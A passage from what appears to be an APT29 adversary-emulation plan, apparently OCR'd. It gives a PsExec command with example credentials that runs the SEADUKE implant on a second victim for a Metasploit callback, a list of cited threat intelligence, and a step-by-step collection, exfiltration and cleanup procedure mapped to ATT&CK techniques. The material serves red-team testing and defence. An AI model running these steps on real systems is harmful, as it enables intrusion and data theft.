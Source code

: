 **Execute SEADUKE Remotely via PSEXEC**

[meterpreter (PowerShell)\*] >

```powershell
.\PsExec64.exe -accepteula \\<victim 2 IP> -u "domainName\username" -p P@ssw0rd -i <session ID from 8A> "C:\Windows\Temp\python.exe"
```

You should receive a callback in your other Metasploit terminal.

### Cited Intelligence

* Open Invitation Contributors: Microsoft, SentinelOne

* SeaDuke has been written in Python and has been delivered through the CozyDuke toolkit.<sup>[1](https://www.f-secure.com/documents/996508/1030745/dukes_whitepaper.pdf),[13](https://www.symantec.com/connect/blogs/forkmeiamfamous-seaduke-latest-weapon-duke-armory) </sup>

* SeaDuke/SeaDaddy samples have been UPX-packed.<sup>[4](https://unit42.paloaltonetworks.com/unit-42-technical-analysis-seaduke/),[5](https://www.slideshare.net/MatthewDunwoody1/no-easy-breach-derby-con-2016),[12](https://www.crowdstrike.com/blog/bears-midst-intrusion-democratic-national-committee/) </sup>

* APT29 has UPX-packed and used SMB to transfer files.<sup> [5](https://www.slideshare.net/MatthewDunwoody1/no-easy-breach-derby-con-2016)</sup>

* APT29 has used UPX-packed, Python-compiled backdoors.<sup> [7](https://www.fireeye.com/blog/products-and-services/2019/02/state-of-the-hack-no-easy-breach-revisited.html)</sup>

---

## Step 9 - Collection

The attacker uploads additional utilities to the secondary victim ([T1105](https://attack.mitre.org/techniques/T1105/)) before running a PowerShell one-liner command ([T1059](https://attack.mitre.org/versions/v6/techniques/T1059/) / [T1059.001](https://attack.mitre.org/techniques/T1059/001/)) to search for filesystem for document and media files ([T1083](https://attack.mitre.org/techniques/T1083/), [T1119](https://attack.mitre.org/techniques/T1119/)). Files of interested are collected ([T1005](https://attack.mitre.org/techniques/T1005/)) then encrypted and compressed ([T1002](https://attack.mitre.org/versions/v6/techniques/T1002/), [T1022](https://attack.mitre.org/versions/v6/techniques/T1022/) / [T1560.001](https://attack.mitre.org/techniques/T1560/001/) into a single file ([T1074](https://attack.mitre.org/versions/v6/techniques/T1074/) / [T1074.001](https://attack.mitre.org/techniques/T1074/001/)). The file this then exfiltrated over the existing C2 connection ([T1041](https://attack.mitre.org/techniques/T1041/)). Finally, the attacker deletes various files ([T1107](https://attack.mitre.org/versions/v6/techniques/T1107/) / [T1070.004](https://attack.mitre.org/techniques/T1070/004/)) associated with that access.

### Procedures

#### 9.A - Ingress Tool Transfer ([T1105](https://attack.mitre.org/techniques/T1105/))

From the second Metasploit terminal:

[msf] > `sessions`
[msf] > `sessions -i 1`
